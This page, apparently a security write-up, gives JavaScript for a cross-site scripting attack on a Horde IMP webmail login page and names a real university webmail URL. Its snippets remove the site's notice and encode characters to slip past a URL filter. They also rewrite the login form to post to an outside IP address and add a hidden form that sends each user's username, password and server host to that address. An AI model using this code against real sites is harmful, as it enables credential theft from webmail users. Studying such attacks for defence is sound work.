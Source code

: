 **Search and wipe out the notice message:**

{% highlight javascript %}var tds = document.body.getElementsByTagName('td');
for (var i = 0; i < tds.length; i%2B%2B){  //%2B is "+" which should be encoded to pass the URL filter.
if (tds[i].className == "notice"){
tds[i].parentNode.innerHTML = "";
}
}{% endhighlight %}
https://webmail.se.cuhk.edu.hk/horde/imp/login.php?logout_reason=message&logout_msg=
</td></tr><tr >
<td >

**Override the submit button at create a hidden form:**

{% highlight javascript %}function submit_login(e){
if (typeof e != 'undefined'%26%26!enter_key_trap(e)) { //%26 is "&amp;" must be encoded to pass URL filter
return;
}
if(document.imp_login.imapuser.value == "") {
document.imp_login.imapuser.focus();
return false;
}
else if (document.imp_login.pass.value=="") {
document.imp_login.pass.focus();
return false;
}
else {
var origAction=document.imp_login.action;
document.imp_login.loginButton.disabled =true;
document.imp_login.action="http://137.189.97.46/trap.php";  //We changed the action from original return.php to our site (trap.php)
document.imp_login.submit();
return true;
}
}{% endhighlight %}

**Add the victim site's URL to the post request: (Since our target is horde version 4.1.x without modification but not single site)
**

{% highlight javascript %}var x = document.imp_login;
input = document.createElement("input");
input.setAttribute("type", "hidden");
input.setAttribute("name", "info" );
input.setAttribute("value", "" );
x.appendChild(input);
document.imp_login.info.value=window.location.host;{% endhighlight %}

**Add invisible form and submit the form when user press "submit":**

{% highlight javascript %}document.body.innerHTML+=
'<form id="dynForm" action="https://137.189.97.46/reflect.html" method="get">
<input type="hidden"name="username">
<input type="hidden"name="password">
<input type="hidden"name="serverUrl">
</form>';
document.getElementById("dynForm").password.value=document.imp_login.pass.value;
document.getElementById("dynForm").serverUrl.value=window.location.host;
document.getElementById("dynForm").username.value=document.imp_login.imapuser.value;
document.getElementById("dynForm").submit();{% endhighlight %}
